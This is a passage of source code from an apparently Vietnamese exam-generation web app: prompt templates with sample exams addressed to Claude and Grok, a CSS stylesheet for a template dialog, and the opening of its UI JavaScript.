    hint: "Dán vào Claude tại claude.ai hoặc app Claude.",
    exampleTopic: "Lịch sử 9 - Cách mạng tháng Tám 1945",
    template: `Bạn là chuyên gia khảo thí và biên soạn đề kiểm tra. Hãy soạn nội dung đề kiểm tra về chủ đề [NHẬP MÔN HỌC/CHỦ ĐỀ Ở ĐÂY].

Kết quả của bạn sẽ được một PHẦN MỀM ĐỌC TỰ ĐỘNG, không phải con người đọc. Vì vậy phải tuân thủ TUYỆT ĐỐI định dạng bên dưới. Chỉ cần sai một chi tiết là phần mềm sẽ báo lỗi hoặc hiểu sai nội dung.

━━━━━━━━━━━━━━ QUY TẮC XUẤT KẾT QUẢ (bắt buộc) ━━━━━━━━━━━━━━
1. CHỈ xuất ra nội dung đề theo đúng định dạng dưới đây. TUYỆT ĐỐI KHÔNG viết lời chào, lời dẫn ("Dưới đây là đề..."), ghi chú, lời kết. KHÔNG đặt kết quả trong khối mã / code block. KHÔNG dùng ký hiệu markdown (dấu sao, dấu thăng, gạch đầu dòng, bảng...).
2. Đề gồm ĐÚNG 2 phần. Mỗi phần mở đầu bằng một dòng header viết y hệt, chữ IN HOA không dấu, có dấu "=" ở hai đầu, NẰM MỘT MÌNH TRÊN DÒNG và có một dòng trống ngay phía trước:
      =PHAN_1_TRAC_NGHIEM=   → chứa mọi câu loại TN, DUNG_SAI, DIEN_TU
      =PHAN_2_TU_LUAN=       → chỉ chứa câu loại TU_LUAN
3. Mỗi câu hỏi bắt đầu bằng đúng dòng:  [CAU_HOI]  — nằm một mình trên dòng, có một dòng trống ngay phía trước. TUYỆT ĐỐI không nối "[CAU_HOI]" hay dòng header vào cuối dòng "Loi_Giai:" của câu trước.
4. Mỗi câu chỉ được có DUY NHẤT một dòng "Dap_An:" và DUY NHẤT một dòng "Loi_Giai:". Hãy suy nghĩ và tự kiểm tra thật kỹ TRƯỚC khi viết, rồi chỉ ghi ra đáp án CUỐI CÙNG mà bạn chắc chắn đúng. Không được ghi "Dap_An:" hoặc "Loi_Giai:" lần thứ hai để tự sửa lại trong cùng một câu.
5. Mỗi trường viết trên MỘT dòng, đúng dạng "Tên_Trường: giá trị". Tên trường viết y hệt (Loai, Muc_Do, De_Bai, Dap_An, Loi_Giai, So_Dong_Nhap) — không dịch, không đổi, không thêm khoảng trắng trong tên. Nội dung "De_Bai:" viết gọn trên một dòng, KHÔNG xuống dòng giữa chừng và KHÔNG bắt đầu bất kỳ dòng nào bằng "A." … "D." hay bằng tên một trường.

━━━━━━━━━━━━━━ TỪ VỰNG BẮT BUỘC ━━━━━━━━━━━━━━
Trường Loai — viết đúng MỘT trong 4 giá trị:  TN  |  DUNG_SAI  |  DIEN_TU  |  TU_LUAN
Trường Muc_Do — viết đúng MỘT trong 4 giá trị:  Nhan_Biet  |  Thong_Hieu  |  Van_Dung  |  Van_Dung_Cao

━━━━━━━━━━━━━━ ĐỊNH DẠNG CHI TIẾT TỪNG LOẠI CÂU ━━━━━━━━━━━━━━

• TN — trắc nghiệm 4 lựa chọn:
  [CAU_HOI]
  Loai: TN
  Muc_Do: <mức độ>
  De_Bai: <nội dung câu hỏi, một dòng>
  A. <nội dung lựa chọn A>
  B. <nội dung lựa chọn B>
  C. <nội dung lựa chọn C>
  D. <nội dung lựa chọn D>
  Dap_An: <MỘT chữ cái: A hoặc B hoặc C hoặc D — phải trùng đúng một lựa chọn ở trên>
  Loi_Giai: <giải thích vì sao đáp án đó đúng>
  → Bắt buộc đủ 4 lựa chọn, mỗi lựa chọn một dòng riêng, bắt đầu bằng "A. ", "B. ", "C. ", "D. ".

• DUNG_SAI — một nhận định, học sinh xét đúng/sai:
  [CAU_HOI]
  Loai: DUNG_SAI
  Muc_Do: <mức độ>
  De_Bai: <một mệnh đề/nhận định trọn vẹn>
  Dap_An: <đúng một từ:  Dung  hoặc  Sai  — không dấu, viết hoa chữ cái đầu>
  Loi_Giai: <giải thích>

• DIEN_TU — điền vào chỗ trống:
  [CAU_HOI]
  Loai: DIEN_TU
  Muc_Do: <mức độ>
  De_Bai: <câu có chỗ trống, đánh dấu chỗ trống bằng ba dấu gạch dưới:  ___ >
  Dap_An: <từ / cụm từ / số cần điền vào chỗ trống>
  Loi_Giai: <giải thích>

• TU_LUAN — tự luận (CHỈ đặt trong =PHAN_2_TU_LUAN=):
  [CAU_HOI]
  Loai: TU_LUAN
  Muc_Do: <mức độ>
  De_Bai: <đề bài yêu cầu học sinh trình bày lời giải>
  So_Dong_Nhap: <số nguyên dương — số dòng kẻ trống chừa cho học sinh làm bài, ví dụ 5 đến 12>
  Loi_Giai: <hướng dẫn chấm / đáp án / các bước giải chi tiết>

━━━━━━━━━━━━━━ CÁCH VIẾT CÔNG THỨC TOÁN ━━━━━━━━━━━━━━
- BẮT BUỘC bọc trong $...$ và viết bằng LaTeX chuẩn cho MỌI công thức có cấu trúc 2 chiều (bên trên/bên dưới một gạch ngang):
    • Căn mọi loại: $\\sqrt{80}$ , $\\sqrt{b^2 - 4ac}$ , căn bậc n $\\sqrt[3]{x+1}$
    • Phân số mọi loại: $\\dfrac{2}{3}$ , $\\dfrac{-b \\pm \\sqrt{b^2 - 4ac}}{2a}$
    • Lũy thừa có cơ số hoặc số mũ là biểu thức: $x^{n+1}$ , $(a+b)^2$ , $(-2)^{3}$ , $2^{10}$
    • Tích phân / tổng / giới hạn có cận: $\\int_{0}^{1} x^2\\,dx$ , $\\sum_{k=1}^{n} k$ , $\\lim_{x \\to 0} f(x)$
    • Hệ phương trình, ma trận: $\\begin{cases} x + y = 1 \\\\ x - y = 3 \\end{cases}$
- CHỈ được gõ ASCII trần (KHÔNG có $...$) cho ký hiệu thật sự MỘT HÀNG: số mũ chỉ một chữ số như x^2 ; dấu nhân a*b ; so sánh <= >= != ; tương đương <=> ; suy ra => ; đơn vị cm2 cm3 ; số thập phân ; dấu cộng trừ viết +- .
- Không trộn nửa ASCII nửa LaTeX trong cùng một biểu thức. Một biểu thức: hoặc toàn ASCII, hoặc toàn LaTeX trong $...$.
- Nếu một biểu thức có căn hoặc phân số thì CẢ biểu thức đó phải nằm gọn trong MỘT cặp $...$ (kể cả phần số/biến đứng ngoài căn): viết $2\\sqrt{3} + 1$ chứ KHÔNG viết 2$\\sqrt{3}$+1 ; viết $\\dfrac{\\sqrt{80}}{5}$ chứ KHÔNG viết $\\sqrt{80}$/5 .

━━━━━━━━━━━━━━ SỐ LƯỢNG CÂU HỎI ━━━━━━━━━━━━━━
Nếu ở phần bổ sung phía dưới KHÔNG ghi yêu cầu số lượng cụ thể: hãy tạo khoảng 6 câu cho PHAN_1 (đủ cả TN, DUNG_SAI, DIEN_TU) và 2–3 câu TU_LUAN cho PHAN_2, phân bố trải đều 4 mức độ từ Nhan_Biet đến Van_Dung_Cao.
Nếu CÓ ghi yêu cầu số lượng: tuân thủ đúng số lượng và đúng loại × mức độ được yêu cầu.

━━━━━━━━━━━━━━ KHUNG MẪU — giữ nguyên cấu trúc, thay <...> bằng nội dung thật ━━━━━━━━━━━━━━

=PHAN_1_TRAC_NGHIEM=
[CAU_HOI]
Loai: TN
Muc_Do: Nhan_Biet
De_Bai: <nội dung câu trắc nghiệm>
A. <lựa chọn A>
B. <lựa chọn B>
C. <lựa chọn C>
D. <lựa chọn D>
Dap_An: A
Loi_Giai: <giải thích>

[CAU_HOI]
Loai: DUNG_SAI
Muc_Do: Thong_Hieu
De_Bai: <một nhận định>
Dap_An: Dung
Loi_Giai: <giải thích>

[CAU_HOI]
Loai: DIEN_TU
Muc_Do: Van_Dung
De_Bai: <câu hỏi có ___ ở chỗ trống>
Dap_An: <đáp án cần điền>
Loi_Giai: <giải thích>

=PHAN_2_TU_LUAN=
[CAU_HOI]
Loai: TU_LUAN
Muc_Do: Van_Dung_Cao
De_Bai: <đề bài tự luận>
So_Dong_Nhap: 8
Loi_Giai: <hướng dẫn chấm và các bước giải chi tiết>

LƯU Ý DÀNH RIÊNG CHO CLAUDE: Không mở đầu câu trả lời bằng bất kỳ câu dẫn nào, kể cả một câu ngắn xác nhận yêu cầu ("Đây là đề kiểm tra bạn cần:" hay tương tự) — xuất thẳng vào nội dung đề. Nếu đề quá dài phải dừng giữa chừng do giới hạn một lượt trả lời, hãy dừng đúng ngay sau một dòng "Loi_Giai:" hoàn chỉnh của một câu (không dừng giữa chừng một câu đang viết dở), để người dùng có thể yêu cầu viết tiếp phần còn lại.`,
    example: `=PHAN_1_TRAC_NGHIEM=
[CAU_HOI]
Loai: TN
Muc_Do: Nhan_Biet
De_Bai: Cách mạng tháng Tám năm 1945 ở Việt Nam giành chính quyền thắng lợi trong thời gian nào?
A. Từ 14/8 đến 28/8/1945
B. Từ 1/9 đến 15/9/1945
C. Từ 19/8 đến 2/9/1945
D. Từ 6/1 đến 19/1/1946
Dap_An: A
Loi_Giai: Từ ngày 14/8 đến 28/8/1945, cuộc Tổng khởi nghĩa diễn ra và giành thắng lợi trên cả nước, tiêu biểu là khởi nghĩa giành chính quyền ở Hà Nội (19/8), Huế (23/8), Sài Gòn (25/8).

[CAU_HOI]
Loai: TN
Muc_Do: Thong_Hieu
De_Bai: Sự kiện nào đánh dấu Cách mạng tháng Tám năm 1945 thành công, khai sinh ra nước Việt Nam Dân chủ Cộng hòa?
A. Nhật đảo chính Pháp (9/3/1945)
B. Tổng khởi nghĩa giành chính quyền ở Hà Nội (19/8/1945)
C. Chủ tịch Hồ Chí Minh đọc Tuyên ngôn Độc lập (2/9/1945)
D. Hội nghị toàn quốc của Đảng ở Tân Trào (14/8/1945)
Dap_An: C
Loi_Giai: Ngày 2/9/1945, tại Quảng trường Ba Đình, Chủ tịch Hồ Chí Minh đọc bản Tuyên ngôn Độc lập, khai sinh ra nước Việt Nam Dân chủ Cộng hòa - đánh dấu thắng lợi hoàn toàn của Cách mạng tháng Tám.

[CAU_HOI]
Loai: DUNG_SAI
Muc_Do: Thong_Hieu
De_Bai: Cách mạng tháng Tám năm 1945 thành công một phần nhờ chớp đúng thời cơ khi phát xít Nhật đầu hàng Đồng minh.
Dap_An: Dung
Loi_Giai: Ngày 15/8/1945, Nhật đầu hàng Đồng minh không điều kiện, tạo thời cơ "ngàn năm có một" để Đảng ta phát động Tổng khởi nghĩa giành chính quyền trước khi quân Đồng minh vào Đông Dương.

[CAU_HOI]
Loai: DIEN_TU
Muc_Do: Van_Dung
De_Bai: Hội nghị toàn quốc của Đảng quyết định phát động Tổng khởi nghĩa được tổ chức tại ___ vào tháng 8/1945.
Dap_An: Tân Trào
Loi_Giai: Hội nghị toàn quốc của Đảng họp tại Tân Trào (Tuyên Quang) từ 14 đến 15/8/1945, quyết định phát động Tổng khởi nghĩa trong cả nước.

=PHAN_2_TU_LUAN=
[CAU_HOI]
Loai: TU_LUAN
Muc_Do: Van_Dung_Cao
De_Bai: Trình bày nguyên nhân thắng lợi và ý nghĩa lịch sử của Cách mạng tháng Tám năm 1945.
So_Dong_Nhap: 10
Loi_Giai: Nguyên nhân thắng lợi: (1) Có sự lãnh đạo đúng đắn, sáng suốt của Đảng và Chủ tịch Hồ Chí Minh; (2) Truyền thống yêu nước, tinh thần đoàn kết của toàn dân tộc trong Mặt trận Việt Minh; (3) Chớp đúng thời cơ khi phát xít Nhật đầu hàng Đồng minh. Ý nghĩa lịch sử: Đập tan ách thống trị của thực dân, phát xít và chế độ phong kiến, lập nên nước Việt Nam Dân chủ Cộng hòa - nhà nước công nông đầu tiên ở Đông Nam Á; mở ra kỷ nguyên độc lập, tự do cho dân tộc; góp phần cổ vũ phong trào giải phóng dân tộc trên thế giới.`,
  },
  {
    id: "grok",
    label: "Grok",
    hint: "Dán vào Grok tại grok.com hoặc trong ứng dụng X (Twitter).",
    exampleTopic: "Tin học 6 - Mạng máy tính và Internet",
    template: `Bạn là chuyên gia khảo thí và biên soạn đề kiểm tra. Hãy soạn nội dung đề kiểm tra về chủ đề [NHẬP MÔN HỌC/CHỦ ĐỀ Ở ĐÂY].

Kết quả của bạn sẽ được một PHẦN MỀM ĐỌC TỰ ĐỘNG, không phải con người đọc. Vì vậy phải tuân thủ TUYỆT ĐỐI định dạng bên dưới. Chỉ cần sai một chi tiết là phần mềm sẽ báo lỗi hoặc hiểu sai nội dung.

━━━━━━━━━━━━━━ QUY TẮC XUẤT KẾT QUẢ (bắt buộc) ━━━━━━━━━━━━━━
1. CHỈ xuất ra nội dung đề theo đúng định dạng dưới đây. TUYỆT ĐỐI KHÔNG viết lời chào, lời dẫn ("Dưới đây là đề..."), ghi chú, lời kết. KHÔNG đặt kết quả trong khối mã / code block. KHÔNG dùng ký hiệu markdown (dấu sao, dấu thăng, gạch đầu dòng, bảng...).
2. Đề gồm ĐÚNG 2 phần. Mỗi phần mở đầu bằng một dòng header viết y hệt, chữ IN HOA không dấu, có dấu "=" ở hai đầu, NẰM MỘT MÌNH TRÊN DÒNG và có một dòng trống ngay phía trước:
      =PHAN_1_TRAC_NGHIEM=   → chứa mọi câu loại TN, DUNG_SAI, DIEN_TU
      =PHAN_2_TU_LUAN=       → chỉ chứa câu loại TU_LUAN
3. Mỗi câu hỏi bắt đầu bằng đúng dòng:  [CAU_HOI]  — nằm một mình trên dòng, có một dòng trống ngay phía trước. TUYỆT ĐỐI không nối "[CAU_HOI]" hay dòng header vào cuối dòng "Loi_Giai:" của câu trước.
4. Mỗi câu chỉ được có DUY NHẤT một dòng "Dap_An:" và DUY NHẤT một dòng "Loi_Giai:". Hãy suy nghĩ và tự kiểm tra thật kỹ TRƯỚC khi viết, rồi chỉ ghi ra đáp án CUỐI CÙNG mà bạn chắc chắn đúng. Không được ghi "Dap_An:" hoặc "Loi_Giai:" lần thứ hai để tự sửa lại trong cùng một câu.
5. Mỗi trường viết trên MỘT dòng, đúng dạng "Tên_Trường: giá trị". Tên trường viết y hệt (Loai, Muc_Do, De_Bai, Dap_An, Loi_Giai, So_Dong_Nhap) — không dịch, không đổi, không thêm khoảng trắng trong tên. Nội dung "De_Bai:" viết gọn trên một dòng, KHÔNG xuống dòng giữa chừng và KHÔNG bắt đầu bất kỳ dòng nào bằng "A." … "D." hay bằng tên một trường.

━━━━━━━━━━━━━━ TỪ VỰNG BẮT BUỘC ━━━━━━━━━━━━━━
Trường Loai — viết đúng MỘT trong 4 giá trị:  TN  |  DUNG_SAI  |  DIEN_TU  |  TU_LUAN
Trường Muc_Do — viết đúng MỘT trong 4 giá trị:  Nhan_Biet  |  Thong_Hieu  |  Van_Dung  |  Van_Dung_Cao

━━━━━━━━━━━━━━ ĐỊNH DẠNG CHI TIẾT TỪNG LOẠI CÂU ━━━━━━━━━━━━━━

• TN — trắc nghiệm 4 lựa chọn:
  [CAU_HOI]
  Loai: TN
  Muc_Do: <mức độ>
  De_Bai: <nội dung câu hỏi, một dòng>
  A. <nội dung lựa chọn A>
  B. <nội dung lựa chọn B>
  C. <nội dung lựa chọn C>
  D. <nội dung lựa chọn D>
  Dap_An: <MỘT chữ cái: A hoặc B hoặc C hoặc D — phải trùng đúng một lựa chọn ở trên>
  Loi_Giai: <giải thích vì sao đáp án đó đúng>
  → Bắt buộc đủ 4 lựa chọn, mỗi lựa chọn một dòng riêng, bắt đầu bằng "A. ", "B. ", "C. ", "D. ".

• DUNG_SAI — một nhận định, học sinh xét đúng/sai:
  [CAU_HOI]
  Loai: DUNG_SAI
  Muc_Do: <mức độ>
  De_Bai: <một mệnh đề/nhận định trọn vẹn>
  Dap_An: <đúng một từ:  Dung  hoặc  Sai  — không dấu, viết hoa chữ cái đầu>
  Loi_Giai: <giải thích>

• DIEN_TU — điền vào chỗ trống:
  [CAU_HOI]
  Loai: DIEN_TU
  Muc_Do: <mức độ>
  De_Bai: <câu có chỗ trống, đánh dấu chỗ trống bằng ba dấu gạch dưới:  ___ >
  Dap_An: <từ / cụm từ / số cần điền vào chỗ trống>
  Loi_Giai: <giải thích>

• TU_LUAN — tự luận (CHỈ đặt trong =PHAN_2_TU_LUAN=):
  [CAU_HOI]
  Loai: TU_LUAN
  Muc_Do: <mức độ>
  De_Bai: <đề bài yêu cầu học sinh trình bày lời giải>
  So_Dong_Nhap: <số nguyên dương — số dòng kẻ trống chừa cho học sinh làm bài, ví dụ 5 đến 12>
  Loi_Giai: <hướng dẫn chấm / đáp án / các bước giải chi tiết>

━━━━━━━━━━━━━━ CÁCH VIẾT CÔNG THỨC TOÁN ━━━━━━━━━━━━━━
- BẮT BUỘC bọc trong $...$ và viết bằng LaTeX chuẩn cho MỌI công thức có cấu trúc 2 chiều (bên trên/bên dưới một gạch ngang):
    • Căn mọi loại: $\\sqrt{80}$ , $\\sqrt{b^2 - 4ac}$ , căn bậc n $\\sqrt[3]{x+1}$
    • Phân số mọi loại: $\\dfrac{2}{3}$ , $\\dfrac{-b \\pm \\sqrt{b^2 - 4ac}}{2a}$
    • Lũy thừa có cơ số hoặc số mũ là biểu thức: $x^{n+1}$ , $(a+b)^2$ , $(-2)^{3}$ , $2^{10}$
    • Tích phân / tổng / giới hạn có cận: $\\int_{0}^{1} x^2\\,dx$ , $\\sum_{k=1}^{n} k$ , $\\lim_{x \\to 0} f(x)$
    • Hệ phương trình, ma trận: $\\begin{cases} x + y = 1 \\\\ x - y = 3 \\end{cases}$
- CHỈ được gõ ASCII trần (KHÔNG có $...$) cho ký hiệu thật sự MỘT HÀNG: số mũ chỉ một chữ số như x^2 ; dấu nhân a*b ; so sánh <= >= != ; tương đương <=> ; suy ra => ; đơn vị cm2 cm3 ; số thập phân ; dấu cộng trừ viết +- .
- Không trộn nửa ASCII nửa LaTeX trong cùng một biểu thức. Một biểu thức: hoặc toàn ASCII, hoặc toàn LaTeX trong $...$.
- Nếu một biểu thức có căn hoặc phân số thì CẢ biểu thức đó phải nằm gọn trong MỘT cặp $...$ (kể cả phần số/biến đứng ngoài căn): viết $2\\sqrt{3} + 1$ chứ KHÔNG viết 2$\\sqrt{3}$+1 ; viết $\\dfrac{\\sqrt{80}}{5}$ chứ KHÔNG viết $\\sqrt{80}$/5 .

━━━━━━━━━━━━━━ SỐ LƯỢNG CÂU HỎI ━━━━━━━━━━━━━━
Nếu ở phần bổ sung phía dưới KHÔNG ghi yêu cầu số lượng cụ thể: hãy tạo khoảng 6 câu cho PHAN_1 (đủ cả TN, DUNG_SAI, DIEN_TU) và 2–3 câu TU_LUAN cho PHAN_2, phân bố trải đều 4 mức độ từ Nhan_Biet đến Van_Dung_Cao.
Nếu CÓ ghi yêu cầu số lượng: tuân thủ đúng số lượng và đúng loại × mức độ được yêu cầu.

━━━━━━━━━━━━━━ KHUNG MẪU — giữ nguyên cấu trúc, thay <...> bằng nội dung thật ━━━━━━━━━━━━━━

=PHAN_1_TRAC_NGHIEM=
[CAU_HOI]
Loai: TN
Muc_Do: Nhan_Biet
De_Bai: <nội dung câu trắc nghiệm>
A. <lựa chọn A>
B. <lựa chọn B>
C. <lựa chọn C>
D. <lựa chọn D>
Dap_An: A
Loi_Giai: <giải thích>

[CAU_HOI]
Loai: DUNG_SAI
Muc_Do: Thong_Hieu
De_Bai: <một nhận định>
Dap_An: Dung
Loi_Giai: <giải thích>

[CAU_HOI]
Loai: DIEN_TU
Muc_Do: Van_Dung
De_Bai: <câu hỏi có ___ ở chỗ trống>
Dap_An: <đáp án cần điền>
Loi_Giai: <giải thích>

=PHAN_2_TU_LUAN=
[CAU_HOI]
Loai: TU_LUAN
Muc_Do: Van_Dung_Cao
De_Bai: <đề bài tự luận>
So_Dong_Nhap: 8
Loi_Giai: <hướng dẫn chấm và các bước giải chi tiết>

LƯU Ý DÀNH RIÊNG CHO GROK: Giữ giọng văn nghiêm túc trong toàn bộ nội dung xuất ra — KHÔNG chêm bình luận hài hước, KHÔNG dùng emoji, KHÔNG thêm ghi chú ngoài lề dù chỉ một dòng. Nếu bạn có nhiều chế độ suy luận, hãy chọn chế độ tuân thủ định dạng nghiêm ngặt nhất.`,
    example: `=PHAN_1_TRAC_NGHIEM=
[CAU_HOI]
Loai: TN
Muc_Do: Nhan_Biet
De_Bai: Internet là gì?
A. Một mạng máy tính duy nhất đặt tại một quốc gia
B. Mạng lưới khổng lồ kết nối hàng triệu mạng máy tính trên toàn thế giới
C. Một loại phần mềm diệt virus
D. Một thiết bị lưu trữ dữ liệu
Dap_An: B
Loi_Giai: Internet là mạng lưới kết nối hàng triệu mạng máy tính và thiết bị trên khắp thế giới, cho phép chúng trao đổi dữ liệu với nhau.

[CAU_HOI]
Loai: TN
Muc_Do: Thong_Hieu
De_Bai: Thiết bị nào sau đây dùng để kết nối các máy tính trong một mạng cục bộ (LAN) với nhau?
A. Chuột máy tính
B. Switch (bộ chuyển mạch)
C. Bàn phím
D. Màn hình
Dap_An: B
Loi_Giai: Switch (bộ chuyển mạch) là thiết bị mạng dùng để kết nối nhiều máy tính trong cùng một mạng LAN, cho phép chúng truyền dữ liệu qua lại.

[CAU_HOI]
Loai: DUNG_SAI
Muc_Do: Thong_Hieu
De_Bai: Địa chỉ IP là một dãy số dùng để định danh duy nhất một thiết bị khi tham gia vào mạng.
Dap_An: Dung
Loi_Giai: Mỗi thiết bị kết nối mạng (máy tính, điện thoại...) được cấp một địa chỉ IP để các thiết bị khác có thể nhận diện và gửi dữ liệu đến đúng đích.

[CAU_HOI]
Loai: DIEN_TU
Muc_Do: Van_Dung
De_Bai: Giao thức chuẩn dùng để truyền tải các trang web trên Internet có tên viết tắt là ___.
Dap_An: HTTP
Loi_Giai: HTTP (HyperText Transfer Protocol) là giao thức chuẩn để trình duyệt và máy chủ web trao đổi dữ liệu trang web với nhau.

=PHAN_2_TU_LUAN=
[CAU_HOI]
Loai: TU_LUAN
Muc_Do: Van_Dung_Cao
De_Bai: Em hãy trình bày 3 lợi ích và 2 rủi ro khi sử dụng Internet, đồng thời đề xuất cách phòng tránh các rủi ro đó.
So_Dong_Nhap: 8
Loi_Giai: Lợi ích: (1) Tìm kiếm thông tin, học tập trực tuyến nhanh chóng; (2) Liên lạc, trao đổi với bạn bè, người thân dù ở xa; (3) Giải trí (xem phim, nghe nhạc, chơi game). Rủi ro: (1) Tiếp xúc thông tin sai lệch, độc hại; (2) Bị lộ thông tin cá nhân, lừa đảo trực tuyến. Cách phòng tránh: không chia sẻ thông tin cá nhân cho người lạ, chỉ truy cập trang web uy tín, hỏi ý kiến người lớn khi gặp nội dung/hành vi đáng ngờ.`,
  }
];

```

### FILE: frontend/templateSystem.css

```css
.template-dialog {
  width: min(1200px, 96vw);
  max-width: 96vw;
  max-height: 94vh;
  padding: 1.2rem;
  overflow: auto;
  color: var(--color-text);
  background: var(--color-surface);
  border: 1px solid var(--color-border);
  border-radius: var(--radius);
}
.template-dialog::backdrop { background: rgba(0, 0, 0, .55); }
.template-top, .template-editor-header { display: flex; gap: .6rem; align-items: center; flex-wrap: wrap; margin-bottom: .8rem; }
.template-top h2, .template-editor-header h3 { margin: 0 auto 0 0; }
.template-dialog button { padding: .45rem .7rem; cursor: pointer; color: var(--color-text); background: var(--color-surface-2); border: 1px solid var(--color-border); border-radius: 6px; }
.template-dialog button:hover, .template-dialog button.selected { border-color: var(--color-primary); background: var(--color-primary-soft); }
.template-status { min-height: 1.5em; color: var(--color-text-muted); }
.template-status.error { color: var(--color-danger); }
.template-gallery input { width: 100%; padding: .6rem; margin-bottom: .7rem; }
.template-grid { display: grid; grid-template-columns: repeat(auto-fill, minmax(200px, 1fr)); gap: .6rem; max-height: 230px; overflow: auto; }
.template-card { display: flex; flex-direction: column; gap: .35rem; padding: .7rem; border: 1px solid var(--color-border); border-radius: 7px; }
.template-card span { color: var(--color-text-muted); font-size: .9em; }
.template-editor { margin-top: 1rem; }
.template-columns { display: grid; grid-template-columns: minmax(210px, 1fr) minmax(250px, 1fr); gap: .8rem; }
.template-list, .template-inspector, .template-prompts { border: 1px solid var(--color-border); border-radius: 7px; padding: .8rem; }
.template-list { max-height: 400px; overflow: auto; }
.template-list section { display: flex; flex-direction: column; gap: .25rem; margin-bottom: .8rem; }
.template-list h4, .template-inspector h4, .template-prompts h4 { margin: .2rem 0 .6rem; }
.template-list button { text-align: left; }
.template-prompt-pick { display: flex; align-items: center; gap: .3rem; }
.template-prompt-pick button { flex: 1; }
.template-field { display: flex; flex-direction: column; gap: .2rem; margin-bottom: .55rem; font-weight: 600; }
.template-field input, .template-field select, .template-field textarea, .template-prompts > textarea { width: 100%; padding: .5rem; color: var(--color-text); background: var(--color-surface); border: 1px solid var(--color-border); border-radius: 5px; font: inherit; }
.template-prompts { margin-top: .8rem; }
.template-prompts > textarea { margin: .5rem 0; resize: vertical; }
.template-report { white-space: pre-wrap; max-height: 220px; overflow: auto; }
.template-download-link { display: inline-block; margin-top: .35rem; font-weight: 600; }
.template-settings { margin: .5rem 0; border: 1px solid var(--color-border); padding: .6rem; border-radius: 7px; }
.template-settings summary { cursor: pointer; font-weight: 600; }
.template-paper-wrap { margin-top: .8rem; border: 1px solid var(--color-border); border-radius: 7px; padding: .8rem; }
.template-preview-controls { display: flex; align-items: center; gap: 1rem; }
.template-preview-controls h4 { margin: 0 auto 0 0; }
.template-preview-controls .template-field { min-width: 150px; }
.template-paper { width: min(100%, 760px); min-height: 700px; margin: .5rem auto; padding: 2rem; background: white; color: #111; border: 1px solid #aaa; box-shadow: 0 4px 15px rgba(0,0,0,.12); position: relative; isolation: isolate; }
/* Nen ve qua lop rieng de ap do mo cau hinh, khong lam mo chu cua de. */
.template-paper.has-bg::before { content: ''; position: absolute; inset: 0; z-index: -1; background-image: var(--template-bg); background-size: var(--template-bg-fit, contain); background-repeat: no-repeat; background-position: center; opacity: var(--template-bg-opacity, .12); print-color-adjust: exact; -webkit-print-color-adjust: exact; }
.template-paper.a5 { max-width: 540px; min-height: 620px; }
.template-paper.landscape { max-width: 900px; min-height: 500px; }
.template-paper h3, .template-paper h4 { text-align: center; }
.template-paper-two-cols { columns: 2; column-gap: 1rem; }
.template-paper-slot { display: block; width: 100%; margin: .45rem 0; padding: .35rem !important; text-align: left; background: transparent !important; color: #111 !important; border: 1px solid transparent !important; break-inside: avoid; }
.template-paper-slot:hover, .template-paper-slot.selected { border-color: #1976d2 !important; }
.template-paper-slot p { margin: .25rem 0; white-space: pre-wrap; }
.template-answer-space.lined > div { height: 1.25rem; border-bottom: 1px solid #999; }
.template-answer-space.squared { background: linear-gradient(#bbb 1px, transparent 1px), linear-gradient(90deg, #bbb 1px, transparent 1px); background-size: 1.25rem 1.25rem; }
.template-answer-space.squared > div, .template-answer-space.blank > div, .template-answer-space.drawing > div, .template-answer-space.table > div { height: 1.25rem; }
.template-answer-space.drawing, .template-answer-space.table { border: 1px solid #999; }
.template-combined-key { break-before: page; }
.template-pdf-pages { display: grid; grid-template-columns: repeat(auto-fill, minmax(220px, 1fr)); gap: .7rem; }
.template-pdf-page { position: relative; width: 100%; border: 1px solid var(--color-border); }
.template-pdf-page img { display: block; width: 100%; height: auto; }
.template-pdf-page .template-region-marker { position: absolute; overflow: hidden; padding: .1rem; border: 2px solid var(--color-primary); background: color-mix(in srgb, var(--color-primary-soft) 75%, transparent); font-size: .7rem; }
@media (max-width: 700px) { .template-columns { grid-template-columns: 1fr; } }
@media print {
  body > *:not(.template-dialog) { display: none !important; }
  .template-dialog { position: static; display: block !important; width: 100%; max-width: none; max-height: none; padding: 0; overflow: visible; border: 0; }
  .template-dialog > *:not(.template-editor), .template-editor > *:not(.template-paper-wrap), .template-preview-controls { display: none !important; }
  .template-paper-wrap { padding: 0; margin: 0; border: 0; }
  .template-paper { width: 100% !important; max-width: none !important; min-height: 0; margin: 0; padding: 0; border: 0; box-shadow: none; print-color-adjust: exact; }
  .template-paper-slot { break-inside: avoid; }
}

```

### FILE: frontend/templateSystem.js

```javascript
// Template workspace is isolated from the legacy editor; only an explicit
// "Open in exam editor" action hands its current slots to the existing flow.
const launchButton = document.getElementById('templateSystemBtn');
const dialog = document.createElement('dialog');
dialog.className = 'template-dialog';
dialog.setAttribute('aria-label', 'Thư viện mẫu đề');
document.body.append(dialog);

const ui = { template: null, selected: null, templates: [], dirty: false, draft: null };
const types = { MCQ: 'Trắc nghiệm', TRUE_FALSE: 'Đúng/Sai', FILL_BLANK: 'Điền từ', ESSAY: 'Tự luận' };
const groups = { FULL_EXAM: 'Tạo toàn bộ đề', SELECTED_SLOTS: 'Tạo phần/slot được chọn', REVIEW_REPAIR: 'Kiểm tra/sửa câu chọn' };
const variants = ['ChatGPT', 'Claude', 'Gemini', 'DeepSeek', 'Grok'];

function node(tag, text, className) {
  const el = document.createElement(tag);
  if (text != null) el.textContent = text;
  if (className) el.className = className;
  return el;
}
function button(text, fn, className = '') {
  const el = node('button', text, className);
  el.type = 'button';
  el.addEventListener('click', fn);
  return el;
}
function field(label, value, onChange, type = 'text', attrs = {}) {
  const wrap = node('label', label, 'template-field');
  const el = type === 'textarea' ? node('textarea') : node('input');
  if (type !== 'textarea') el.type = type;
  el.value = value ?? '';
  for (const [key, val] of Object.entries(attrs)) el.setAttribute(key, val);
  el.addEventListener('change', () => onChange(el.value));
  wrap.append(el);
  return wrap;
}
function select(label, value, options, onChange) {
  const wrap = node('label', label, 'template-field');
  const el = node('select');
  options.forEach(([v, title]) => { const option = node('option', title); option.value = v; el.append(option); });
  el.value = value;
  el.addEventListener('change', () => onChange(el.value));
  wrap.append(el);
  return wrap;
}
function status(message, error = false) {
  const el = dialog.querySelector('.template-status');
  if (el) { el.textContent = message; el.classList.toggle('error', error); }
}
async function api(path, options = {}) {
  const response = await fetch(path, { ...options, headers: { 'Content-Type': 'application/json', ...options.headers } });
  const data = await response.json();
  if (!response.ok || data.success === false) throw new Error(data.error || `HTTP ${response.status}`);
  return data;
}
function allSlots(template = ui.template) { return template.sections.flatMap(section => section.slots.map(slot => ({ section, slot }))); }
function scoreLabel() {
